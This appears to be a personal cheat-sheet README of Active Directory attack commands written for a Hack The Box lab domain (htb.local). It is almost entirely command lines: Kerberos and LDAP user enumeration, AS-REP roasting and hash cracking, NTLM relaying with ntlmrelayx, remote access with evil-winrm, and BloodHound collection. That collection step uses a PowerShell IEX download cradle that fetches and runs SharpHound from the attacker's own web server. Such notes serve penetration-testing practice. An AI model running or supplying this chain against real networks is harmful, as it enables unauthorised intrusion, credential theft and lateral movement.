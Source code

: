 # Commands-Importants

- LDAP with nmap:
```bash
nmap --script ldap-search -p389 <target> -oN ldapScan
```
- Kerberos with nmap:
```bash
nmap -script krb5-enum-users --script-args krb5-enum-users.realm='htb.local',userdb=/opt/Seclists/Usernames/Names/names.txt -p88 <target>
```
- Enumerate with `rpcclient`
```bash
rpcclient -U "" <target> -N -c 'enumdomusers' 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > users
```
- AS-REP Roasting attack -> I get a hash/ticket  of a user
```bash
GetNPUsers htb.local/ -no-pass -usersfile users
```
- KERBEROS -> I need credentials -> `GetUserSPNs`

- Crack the hash/ticket with `john`

- Enumerate with smbclient and the credentials
```bash
smbclient -L <target> -U "htb.local\<username>" 
>>>> password -> I put the password
```
- Enumerate the all AD with ldap -> outils `ntlmrelayx`
```bash
cd /var/www/html
ntlmrelayx -t <target> ldap://<target> 
> go to web : `http://localhost` and put the credential
> user:password     
-> I will some file created (stop now ntlmrelayx) and start apache
service apache2 start
```
- Connect via `evil-winrm`
```bash
evil-winrm -i <target> -u 'username' -p 'password'
```
- Use of `bloodhound` -> target with powershell
```bash
> target
cd C:\Windows\Temp
mkdir privesc
cd privesc
```
```bash
> my shell
apt install bloodhound neo4j
neo4j console

> web
localhost:7474

> my shell
cd /usr/share/neo4j
bloodhound &> /dev/null &
disown
--> panel of auth appears | connecto bloodhound's credential
```
```bash
> web ---> download the raw of Sharphound.ps1 github
wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1

> my shell to share a server via python
python3 -m http.server 80

> target shell powershell -> 'privesc'
IEX(New-Object Net.WebClient).downloadString('http://<my IP>/SharpHound.ps1')

> my shell 
grep "Invoke-" SharHound.ps1

> target shell powershell | this will create a file zip | 'download' is a command of avil-winrm
Invoke-BloodHound -CollectionMethod All
download <file>.BloodHound.zip
```
```bash
> Go to Bloodhound and upload the file zip -> hit "Upload Data"
```




























